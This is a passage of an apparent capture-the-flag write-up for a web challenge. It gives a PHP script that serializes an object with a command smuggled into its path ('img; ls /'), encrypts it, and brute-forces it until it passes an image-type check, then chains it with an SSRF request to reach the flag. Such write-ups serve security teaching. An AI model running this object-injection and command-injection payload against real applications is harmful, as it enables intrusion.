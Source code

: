 ```lang-php line-numbers 
class Upload {
    function __construct($path) {
        $this->data = "";
        $this->filename = "";
        $this->path = $path;
        $this->type = "image/jpeg";
    }
}

function encrypt($data) {
        $size = 32;
        $key = '6hQJMFh8gRje67EmpDX3';
        $iv = mcrypt_create_iv($size, MCRYPT_RAND);
        $key = hash('sha256', $key, true);
        $data = $iv.mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, $data, MCRYPT_MODE_CBC, $iv);
        return $data;
}

$upload = new Upload("img; ls /");
$payload = 'auth|'.serialize($upload);
$data = '';
$file = 0;
while (true){
    echo '.';
    $data = encrypt($payload);
    file_put_contents("exploit",$data);
    $file = exif_imagetype('exploit');
    if($file > 0){
        echo $file."\n";
        die("Done\n");
    };
};
```

Now our exploit will be accepted:

![](/images/octopress/web400-3.png)

All we are left to do is use our SSRF vector to visit the admin.php page for us and make it set the PHPSESSIONID in the query parameter:

![](/images/octopress/web400-4.png)

If we decode the response:

![](/images/octopress/web400-5.png)

The flag was:

```lang-bash line-numbers 
CTF{42a38432d46b9054004a7a87fd3140c7}
```









